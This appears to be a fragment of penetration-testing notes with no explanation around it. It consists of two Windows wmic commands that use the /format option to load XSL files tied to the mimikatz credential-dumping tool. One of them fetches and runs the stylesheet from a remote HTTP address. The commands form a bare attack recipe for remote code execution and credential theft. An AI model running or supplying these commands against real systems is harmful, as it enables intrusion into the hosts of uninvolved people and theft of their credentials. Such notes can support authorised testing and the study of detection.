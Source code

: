 	>wmic os get /format:"mimikatz.xsl"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/314.png)

	>wmic os get /format:"http://192.168.0.107/ps/mimi.xsl"